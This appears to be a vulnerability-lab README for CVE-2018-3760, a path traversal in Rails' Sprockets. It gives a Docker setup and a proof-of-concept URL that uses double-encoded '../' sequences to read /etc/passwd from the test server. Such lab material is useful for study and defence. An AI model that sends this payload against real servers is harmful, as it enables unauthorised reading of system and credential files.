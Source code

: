# Ruby On Rails Path Traversal Vulnerability（CVE-2018-3760）

Ruby On Rails is a well-known Ruby Web development framework, which uses Sprockets as a static file server in development environment. Sprockets is a Ruby library that compiles and distributes static resource files.

There is a path traversal vulnerability caused by secondary decoding in Sprockets 3.7.1 and lower versions. An attacker can use `%252e%252e/` to access the root directory and read or execute any file on the target server.

Reference links：

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://seclists.org/oss-sec/2018/q2/210
- https://xz.aliyun.com/t/2542

## Environment setup

Enter the following command：

```
docker-compose up -d
```

Visit `http://your-ip:3000` and you'll see the welcome page.

## POC

It will give an error by visiting `http://your-ip:3000/assets/file:%2f%2f/etc/passwd` directly, as the file `/etc/passwd` is not in the allowed directory.

![](1.png)

We can get a list of allowed directories by the error page. Just select one of them, such as `/usr/src/blog/app/assets/images`, then use `%252e%252e/` to jump to the parent directory, and finally read the file `/etc/passwd`:

```
http://your-ip:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![](2.png)

